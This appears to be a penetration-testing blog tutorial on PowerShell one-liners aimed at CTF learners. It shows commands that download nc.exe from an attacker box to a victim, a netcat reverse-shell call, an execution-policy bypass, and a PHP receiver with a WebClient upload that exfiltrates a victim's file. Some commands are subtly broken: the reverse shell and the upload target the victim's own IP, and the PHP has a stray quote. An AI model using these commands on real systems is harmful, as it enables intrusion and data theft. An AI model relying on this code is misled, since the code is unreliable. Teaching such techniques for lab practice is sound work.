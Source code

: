 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Downloading And Exfiltrating"
author: nanobyte
date:   2020-08-31
description: PowerShell for Penetration Testing, and how to download files to a victim machine, and exfiltrate data from the victim machine
tags: PowerShell
---
```


This next installment in the Powershell For Penetration Testers looks into how an attacker can introduce files to a victim machine through a PowerShell download, as well as how to use PowerShell to upload files rom a victim machine to your attacking box. I recently decided to continue on with this series to help other new comers into the field to learn as I learn. I recently used these skills on a recent Hack The Box machine, which if I remember to, will post the link to the writeup as a practical example.

<h1>Downloading Files with PowerShell</h1>

Using a PowerShell session, an attacker can quickly download files to a victim machine rather quickly. There are hundreds of examples mroe intense then what I will show you, but here are my two methods and go-to's which I attempt whenever I am performing an attack. In the examples to follow, I will assume that I am attempting to download `nc.exe` to the victim machine, which I would then plan to use to call a reverse shell back to my attacking machine. I will assume that the victim machine I am attacking is a Windows based Operating System, and I am using Kali Linux as my attacking box. Luckily, PowerShell is installed on all Windows platforms, including Windows IoT Core (hint for the Hack The Box machine).

Please also assume that my Kali Linux has a HTTP server running (This can be Apache, Python's SimpleHTTPServer, whatever you prefer) and has an IP of 10.10.10.2, where the Windows machine is 10.10.10.1. 

<h2>Invoke-WebRequest</h2>

The first example is a quick one that can easily be remembered, using a PowerShell cmdlet:

{% highlight bash linenos %}
powershell -c "mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

This command first calls PowerShell to run a command with the `-c` flag. This is shortened from the `-Command` flag. This also assumes that you are on the machine with a command prompt. Then, the command is actually executed, first making a directory to save our `nc.exe` binary to. The following command then uses the `Invoke-WebRequest` cmdlet to download our file from the web server, and saves it to the `C:\temp` directory.

We could further this command by then calling `& c:\temp\nc.exe -e cmd.exe 10.10.10.1 1337` to connect back to our reverse shell (but that is outside of this article) to further our attack as a one-liner.

<h2>System.Net.WebClient</h2>

However, I frequently find that this is not the preferred method in Hack The Box or other CTF's to download files to victims. This brings us to our next approach, using PowerShell's `System.Net.WebClient`:

{% highlight bash linenos %}
powershell -c "mkdir c:\temp & (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.2/nc.exe','C:\temp\nc.exe')"
{% endhighlight %}

This is similar to the example above, creating the directory before downloading, only using a .NET class to download.

<h2>Remember -ExecutionPolicy Bypasss</h2>

Along with PowerShell, remembe that there are sometimes restrictions placed onto the PowerShell session you may be running. I already have an article describing how to beat these execution policies, found <a href="/2020/05/23/powershell-for-pentesters-beating-restricted-policies.html" target="_blank">here</a>. To make sure that you beat these restricted execution methods, quickly throw a `-exec bypass` before your download command:

{% highlight bash linenos %}
powershell -c "-exec bypass mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

<h1>Exfiltrating Data</h1>

This is a method where you use a HTML server running on your Kali Linux attacking machine, where PowerShell can upload a file from a victim machine to your Kali. First, we will need to create a PHP page to process our upload request. This can be found here:

{% highlight bash linenos %}
<?php
$uploaddir = '/var/www/uploads';
$uploadfile = '$uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
{% endhighlight %}

Also, make sure that the upload directory exists in your Kali Linux. Once saved adn created into our `/var/www/html` directory as `upload.php`, start and stop our local Apache processes:

{% highlight bash linenos %}
sudo service apache2 status
/etc/init.d/apache2 start
/etc/init.d/apache2 stop
{% endhighlight %}

And once running, call the PowerShell command to exfiltrate the data you require:

{% highlight bash linenos %}
powershell -c "(New-Object System.Net.WebClient).UploadFile('http://10.10.10.1/upload.php, 'file.txt')"
{% endhighlight %}

And check your upload directory for the file!

Thank you for reading, please keep coming back for more in this series as nanobyte learns and updates PowerShell For Penetration Testers!
